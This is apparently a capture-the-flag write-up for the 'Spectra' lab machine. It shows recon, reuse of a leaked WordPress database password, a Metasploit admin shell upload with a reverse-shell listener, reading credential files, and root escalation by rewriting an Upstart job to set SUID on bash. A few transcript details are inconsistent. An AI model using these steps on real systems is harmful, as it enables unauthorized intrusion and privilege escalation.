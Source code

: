 # Spectra - Writeup
## Initial Recon
Let's start with a nmap scan to extract the open ports

```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-24 08:23 EDT
Nmap scan report for spectra.htb (10.10.10.229)
Host is up (0.13s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.1 (protocol 2.0)
| ssh-hostkey: 
|_  4096 52:47:de:5c:37:4f:29:0e:8e:1d:88:6e:f9:23:4d:5a (RSA)
80/tcp   open  http    nginx 1.17.4
|_http-server-header: nginx/1.17.4
|_http-title: Site doesn't have a title (text/html).
3306/tcp open  mysql   MySQL (unauthorized)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_sslv2: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=4/24%OT=22%CT=1%CU=32437%PV=Y%DS=2%DC=T%G=Y%TM=60840E0
OS:A%P=x86_64-pc-linux-gnu)SEQ(SP=102%GCD=1%ISR=10C%TI=Z%CI=Z%II=I%TS=A)SEQ
OS:(SP=103%GCD=1%ISR=10D%TI=Z%CI=Z%TS=A)OPS(O1=M54DST11NW7%O2=M54DST11NW7%O
OS:3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST11NW7%O6=M54DST11)WIN(W1=FE88%W2=
OS:FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M54DNNSN
OS:W7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%D
OS:F=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O
OS:=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W
OS:=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%R
OS:IPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops

TRACEROUTE (using port 1720/tcp)
HOP RTT       ADDRESS
1   126.43 ms 10.10.14.1
2   126.83 ms spectra.htb (10.10.10.229)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 59.62 seconds
```
nmap scan show that there is three ports open, 22 for ssh, 80 for http and 3306 for mysql.

## Website Enumeration

Open the following link in the browser : http://10.10.10.229

![alt text](https://pencer.io/assets/images/2021-03-21-16-46-59.png)

a simple page with two links, Software Issue Tracking and test.
The test link redirect us to http://10.10.10.229/testing/index.php, in this page we see an error database connection.
When we open http://10.10.10.229/testing, we see a wordpress projet, it's like a testing wordpress projet.
There is a file called wp-config.php.save, it's a configuration file in wordpress.
There is some credentials in this file, like ```define( 'DB_PASSWORD', 'devteam01' );```
Let's use this password to login in the the admin page of main website with username ```administrator```

ET VOILA, We're logged in as administrator. At this point we can either use Meterpreter to get a reverse shell, or we can change one of the template files from within the WordPress admin site and put our own reverse shell in it.

## Metasploit 
```
msf6>use exploit/unix/webapp/wp_admin_shell_upload
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set rhost 10.10.10.229
rhost => 10.10.10.229
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set lhost 10.10.14.76
lhost => 10.10.14.114
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set lport 1234
lport => 1234
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set username administrator
username => administrator
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set password devteam01
password => devteam01
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set targeturi /main
targeturi => /main
```
### User Flag

Let’s check for users
```
nginx@spectra / $ cat /etc/passwd 
.
.
.
nginx:x:20155:20156::/home/nginx:/bin/bash
katie:x:20156:20157::/home/katie:/bin/bash
```

We another user in the passwd file called katie, let’s look at /home:
```
nginx@spectra / $ ls -l /home
total 20
drwxr-xr-x 20 chronos chronos 4096 Mar 21 14:53 chronos
drwxr-xr-x  4 katie   katie   4096 Mar 21 15:14 katie
drwxr-xr-x  5 nginx   nginx   4096 Mar 21 15:30 nginx
drwxr-x--t  4 root    root    4096 Jul 20  2020 root
drwxr-xr-x  4 root    root    4096 Jul 20  2020 user
```

So we need to find a way to move from our restricted nginx user to katie to get the flag.

Let's see what is inside the /opt folder
```
nginx@spectra ~ $ cd /opt
nginx@spectra /opt $ ls -l
total 36
drwxr-xr-x 2 root root 4096 Jun 28  2020 VirtualBox
-rw-r--r-- 1 root root  978 Feb  3 16:02 autologin.conf.orig
drwxr-xr-x 2 root root 4096 Jan 15 15:53 broadcom
drwxr-xr-x 2 root root 4096 Jan 15 15:54 displaylink
drwxr-xr-x 2 root root 4096 Jan 15 15:53 eeti
drwxr-xr-x 5 root root 4096 Jan 15 15:55 google
drwxr-xr-x 6 root root 4096 Feb  2 15:15 neverware
drwxr-xr-x 5 root root 4096 Jan 15 15:54 tpm1
drwxr-xr-x 5 root root 4096 Jan 15 15:54 tpm2
```

We see a file called autologin.conf.orig, which sounds very suspicious
```
bash-4.3# cat /opt/autologin.conf.orig 
# Copyright 2016 The Chromium OS Authors. All rights reserved.
# Use of this source code is governed by a BSD-style license that can be
# found in the LICENSE file.
description   "Automatic login at boot"
author        "chromium-os-dev@chromium.org"
# After boot-complete starts, the login prompt is visible and is accepting
# input.
start on started boot-complete
script
  passwd=
  # Read password from file. The file may optionally end with a newline.
  for dir in /mnt/stateful_partition/etc/autologin /etc/autologin; do
    if [ -e "${dir}/passwd" ]; then
      passwd="$(cat "${dir}/passwd")"
      break
    fi
  done
  if [ -z "${passwd}" ]; then
    exit 0
  fi
```

There's a line in there that points us to /etc/autologin. Let’s check that out:
```
scriptbash-4.3# cat /etc/autologin/passwd
SummerHereWeCome!!
```

Nice. We've found a password which presumably is for katie as that's the only other user on the box. Let's try SSH as we know that's open from our scan earlier.

The user falg is located at users.txt

## Root Flag
Ok, now we need to find a way to escalate. Let's see the all sudo permissions with the command :
```
katie@spectra ~ $ sudo -l
User katie may run the following commands on spectra:
    (ALL) SETENV: NOPASSWD: /sbin/initctl
```

```
initctl allows a system administrator to communicate and interact with the Upstart init(8) daemon.
init is the parent of all processes on the system, it is executed by the kernel and is responsible for starting all other processes.
```

So we can use initctl to control starting and stopping processes as system. Sounds like a nice simple way to get a root shell. First let’s see what’s /etc/init:
```
katie@spectra /etc/init $ ls -l
total 752
...
-rw-rw---- 1 root developers  478 Jun 29  2020 test.conf
-rw-rw---- 1 root developers  478 Jun 29  2020 test1.conf
-rw-rw---- 1 root developers  478 Jun 29  2020 test10.conf
-rw-rw---- 1 root developers  478 Jun 29  2020 test2.conf
-rw-rw---- 1 root developers  478 Jun 29  2020 test3.conf
-rw-rw---- 1 root developers  478 Jun 29  2020 test4.conf
-rw-rw---- 1 root developers  478 Jun 29  2020 test5.conf
-rw-rw---- 1 root developers  478 Jun 29  2020 test6.conf
-rw-rw---- 1 root developers  478 Jun 29  2020 test7.conf
-rw-rw---- 1 root developers  478 Jun 29  2020 test8.conf
-rw-rw---- 1 root developers  478 Jun 29  2020 test9.conf
```

Let’s check out the first test file:
```
katie@spectra /etc/init $ cat test.conf
description "Test node.js server"
author      "katie"
start on filesystem or runlevel [2345]
stop on shutdown
script
    export HOME="/srv"
    echo $$ > /var/run/nodetest.pid
    exec /usr/local/share/nodebrew/node/v8.9.4/bin/node /srv/nodetest.js
end script
pre-start script
    echo "[`date`] Node Test Starting" >> /var/log/nodetest.log
end script
pre-stop script
    rm /var/run/nodetest.pid
    echo
```

 We can replace the contents of this with our own code, let’s get it to change permissions on /bin/bash so we can run it with root permissions as katie.
```
katie@spectra /etc/init $ cat test.conf 
description "Test node.js server"
author      "katie"
start on filesystem or runlevel [2345]
stop on shutdown

script
chmod +s /bin/bash
end script
```

```
katie@spectra /etc/init $ sudo /sbin/initctl start test
test stop/waiting
```

```
katie@spectra /etc/init $ /bin/bash -p
bash-4.3# whoami
root
```
Grab the root flag and we are done:
```
cat root/root.txt
```

